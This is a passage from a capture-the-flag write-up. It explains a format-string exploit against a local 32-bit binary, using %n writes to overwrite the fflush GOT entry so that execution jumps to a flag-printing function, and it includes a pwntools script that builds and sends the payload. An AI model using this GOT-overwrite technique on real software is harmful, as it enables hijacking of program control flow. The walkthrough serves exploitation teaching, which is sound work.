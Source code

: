 If we call this function it will just print the flag. There is one more piece of this puzzle we need to figure out before we can write the exploit. With our write, we write the amount of bytes specified. We can increase the amount of bytes we print by `10` by including `%10x` in our format string. However once we do a write of `10`, all subsequent writes must be less than that. For our first write, we will worry about writing the first byte of the address to `flag` to the got entry for `fflush` which we can find using objdump:

```
$    objdump -R 32_new | grep fflush
0804a028 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

With the second write, we will write the second and third. The fourth write will write the highest byte of the address. However we will get around the fact that subsequent writes can only be greater than or equal to the previous write by overflowing the next spot in memory with it. So whatever value we write for the third write, only the least significant byte will end up in the highest byte for the got entry for `fflush`. To make more sense, let's look at the memory layout of the got entry while we carry out this attack. For that here's a small sample script which will carry out the attack and drop us in gdb to see:

```
$   cat sample.py 
#Import pwntools
from pwn import *

#Establish the target process, or network connection
target = process('./32_new')

#Attach gdb if it is a process
gdb.attach(target, gdbscript='b *0x080487dc')

input()

#Print the first line of text
print(target.recvline())

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the necessary inputs for our input, so we can write to the addresses
fmt_string0 = b"%10$n"
fmt_string1 = b"%11$n"
fmt_string2 = b"%12$n"

#Form the payload
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + fmt_string0 + fmt_string1 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```
